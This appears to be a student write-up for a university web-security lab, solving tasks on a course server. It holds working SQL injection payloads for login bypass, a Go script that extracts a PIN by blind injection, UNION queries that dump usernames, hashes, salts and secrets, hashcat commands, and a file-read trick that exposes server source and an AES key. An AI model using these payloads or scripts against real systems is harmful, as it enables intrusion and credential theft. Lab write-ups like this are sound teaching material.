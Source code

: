 # Writeup

## Task 1: Login without password

We can do basic SQL injection and use following values:

* username: `dzivjmat' AND 1 = 1 #`
* password: `placeholder`

## Task 2: Find out your PIN

Let's write some code to solve this for us:

```go
package main

import (
    "fmt"
    "io/ioutil"
    "net/http"
    "net/url"
    "strconv"
    "strings"
)

// send is helper function that POSTS given data to index page.
func send(values url.Values) string {
    resp, err := http.PostForm("https://kbe.felk.cvut.cz/index.php", values)
    if err != nil {
        panic(err)
    }
    defer resp.Body.Close()
    data, err := ioutil.ReadAll(resp.Body)
    if err != nil {
        panic(err)
    }
    return string(data)
}

func stealPin() string {
    // start with empty pin
    pin := ""
    for len(pin) != 4 { // run until we have full pin
        for i := 0; i < 10; i++ { // try all digits: 0...9
            res := send(url.Values{
                "username": {fmt.Sprintf(`dzivjmat' AND pin LIKE '%s%d%%' #`, pin, i)},
                "password": {"placeholder"},
            })
            // if the page contains input for PIN we have successfully guessed the digit
            if strings.Contains(res, "PIN") {
                pin += strconv.Itoa(i)
                break
            }
        }
    }
    return pin
}

func main() {
    fmt.Printf("PIN: %s\n", stealPin())
    // result: 4425
}
```

## Task 3: Overcome One-Time-Password

Done using SQL injection and use following values:

* username: `unexistent_user' UNION ALL SELECT secret AS username FROM users WHERE username = 'dzivjmat' #`
* password: `placeholder`

Result: 3XLU4LMYWYYNFFW4

To get the TOTP code I used golang package github.com/xlzd/gotp and following snippet:

```go
fmt.Println(gotp.NewDefaultTOTP("3XLU4LMYWYYNFFW4").Now())
```

The result varies but works 😏

## Task 4: Exfiltrate a list of all usernames, passwords, salts, secrets and pins

After some attempts all that was needed is following query:

`https://kbe.felk.cvut.cz/index.php?offset=1 UNION SELECT CONCAT(username, ';', password, ';', salt, ';', pin), 1 FROM users`

Result included in file `all_users.csv`.

## Task 5: Crack your password hash

Done using bash

* `echo "62814f10dd416b616f733605740304cd87ba7508:ac598" > hash.txt` this format is required by hashcat
* `hashcat -a 3 -m110 hast.txt --force` -m110 because that's for sha1

Result: 12f40

## Task 6: Crack teacher's password hash

Tried a few pages and finally got positive result on:

https://hashtoolkit.com/decrypt-hash/?hash=2d55131b6752f066ee2cc57ba8bf781b4376be85

Result: fm9fytmf7q

The hash is `2d55131b6752f066ee2cc57ba8bf781b4376be85` and is taken from the `all_users.csv` file
created in step 4.

## Task 7: Explain why teacher's password is insecure despite it's length

It's "long" but contains only numbers and lowercase letters.

## Task 8: Print a list of all table names and their columns

1. get all tables: `https://kbe.felk.cvut.cz/index.php?offset=1 UNION ALL SELECT TABLE_NAME, 1 FROM INFORMATION_SCHEMA.TABLES`
  result: `codes, messages, users`
2. get columns for individual tables:
    * `https://kbe.felk.cvut.cz/index.php?offset=1 UNION ALL SELECT column_name, 1 INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'messages'`
      result: `username, base64_message_xor_key, date_time`
    * `https://kbe.felk.cvut.cz/index.php?offset=1 UNION ALL SELECT column_name, 1 INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'codes'`
      result: `username, aes_encrypt_code`
    * `https://kbe.felk.cvut.cz/index.php?offset=1 UNION ALL SELECT column_name, 1 INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'users'`
      result: `username, passworn, pin, secret, salt`

## Task 9: Derive xor key used for encoding your messages

First steal the messages: `https://kbe.felk.cvut.cz/index.php?offset=1 UNION ALL SELECT base64_message_xor_key, 1 FROM messages WHERE username = 'dzivjmat'`

```
LwoePAQIHH9ZUAkCJQIUDzJTRA4fGlFefx8NECxFW0RGJgQXF39UWUBDDE8BOggXHCtFX1IVLAoFAHE=
RA5SNxkAH2JCW1kCOhNMFTdCD1FfHApVYSMACzpZHVZYfxINEH9RUVwQHgYcO0scFioXEkQDPB4QAH9RX1ZVVg==
LwoeM0dFDTcERhAVfwoOCX9UX0AQFgAFcUs2DT4cEkMTMQ4GRTldQhJEEApSMQ4dDX8GWlYKMw4MAjpBHg==
```

These represent respectively:

```
Welcome <b>dzivjmat</b>, this is your first secret message.
<a href="index.php?code">Here</a> you can find your secure code.
Well, that's all for now. Stay tuned for the next challenges.
```

We can reuse code from Crypto lab1:

```go
encoded := LwoePAQIHH9ZUAkCJQIUDzJTRA4fGlFefx8NECxFW0RGJgQXF39UWUBDDE8BOggXHCtFX1IVLAoFAHE=
data, _ := ioutil.ReadAll(base64.NewDecoder(base64.StdEncoding, strings.NewReader(encoded)))
fmt.Println(XORWithKey(string(data), "Welcome <b>dzivjmat</b>, this is your first secret message."))
```

Result: xor_key_e27f_kbe_2020

## [BONUS :hurtrealbad:] Task 10: Find out key used for encoding secure codes

After some time I found the `Warning` link leading to `https://kbe.felk.cvut.cz/index.php?open=warning.txt`.
A few more attempts and: `https://kbe.felk.cvut.cz/index.php?open=index.php` which
opens the server code itself. Here it was:

```php
...
define("AES_ENCRYPT_CODE_KEY", "UScnF4L5AX5kmpib");
...
```

Result: `UScnF4L5AX5kmpib`

## [BONUS :feelsgood:] Task 11: Steal Martin Rehak's secure code 

* Let's get back to the `codes` table: `https://kbe.felk.cvut.cz/index.php?offset=1 UNION ALL SELECT CONCAT(username, ":", aes_encrypt_code), 1 FROM codes`.
* Here we find: `rehakmar:7280ED648FEDDB0E8BC8B12DA93723BF824AE15DC1DB8204238F3583FE5DB0CF`.
* Resuse code from crypto lab2:
```go
d, _ := hex.DecodeString("7280ED648FEDDB0E8BC8B12DA93723BF824AE15DC1DB8204238F3583FE5DB0CF")
fmt.Println(string(DecryptAESECB([]byte("UScnF4L5AX5kmpib"), d)))
```

Result: acid-load-direct-obvious
